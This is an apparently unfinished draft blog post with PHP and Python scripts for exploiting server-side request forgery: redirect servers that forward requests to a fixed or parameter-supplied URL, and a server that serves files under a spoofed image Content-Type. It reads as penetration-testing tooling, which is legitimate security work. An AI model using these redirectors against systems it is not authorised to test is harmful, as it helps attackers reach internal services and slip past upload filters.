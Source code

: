 ```yaml
---
layout: post
title: Exploiting SSRFs using On-the-Fly Redirectors 
published: false
---
```


It can be extremely useful to 

---

# PHP
Run the following scripts using PHP's built-in development:
```
php -S 0.0.0.0:8080 redirector.php
```

### Simple Redirector
The following script will forward all requests to the value of the hardcoded variable `destination`:
```php
<?php
$destination = 'https://example.com';

# print IP address and requested URI
error_log(print_r("- ".$_SERVER['REMOTE_ADDR']." - ".$_SERVER["REQUEST_URI"], true));

# forward to target destination
Header("Location: ".$destination);
?>
```

### Advanced Redirector
Here is a slightly more advanced variation of the above script. If a requested URI contains the extension `.png` *and* the query parameter `url`, this script will forward the request to the URL-decoded value of the parameter `url`. It also includes a commented-out option to use base64 instead.

If you can control the full URL, this redirector will make testing easier as you won't need to edit the PHP file every time you want a request to be forwarded to a different destination - you can, for instance, just change the value of the URL in Burp's Repeater.
```php
<?php
$extension = 'png';

# print IP address and requested URI
error_log(print_r("- ".$_SERVER['REMOTE_ADDR']." - ".$_SERVER["REQUEST_URI"], true));

if ((preg_match("/\.(?:$extension)/", $_SERVER["REQUEST_URI"])) && $_GET['url']) {
    # get parameter 'url' and assign to variable 'location'
    $location = $_GET['url'];
    # forward request to URL-decoded variable
    Header("Location: ".urldecode($location));
    //Header("Location: ".base64_decode($location));
} else {
    # if the request does not match above criteria, print "OK"
    echo "OK";
}
?>
```

### Image Server
Some applications mishandle external images and may only check the value of the header `Content-Type` in order to determine if an external image file is safe to download onto their own server.

```php
<?php
$target_file = "example.jpg";

Header("Content-Type: image/jpg");
//Header("Content-Type: image/png");

$file=@$target_file;
$size=filesize($file);

Header("Content-Length: $size bytes");

# serve file
readfile($file);

?>
```

# Python
Python redirector:
```python
#!/usr/bin/env python3
# redirector.py

import sys
from http.server import HTTPServer, BaseHTTPRequestHandler

if len(sys.argv)-1 != 2:
    print("""
Usage: {} <port_number> <url>
    """.format(sys.argv[0]))
    sys.exit()

class Redirect(BaseHTTPRequestHandler):
   def do_GET(self):
       self.send_response(301)
       self.send_header('Location', sys.argv[2])
       self.end_headers()

HTTPServer(("", int(sys.argv[1])), Redirect).serve_forever()

```

Run it:
```
python3 redirector.py 8080 "https://example.com"
```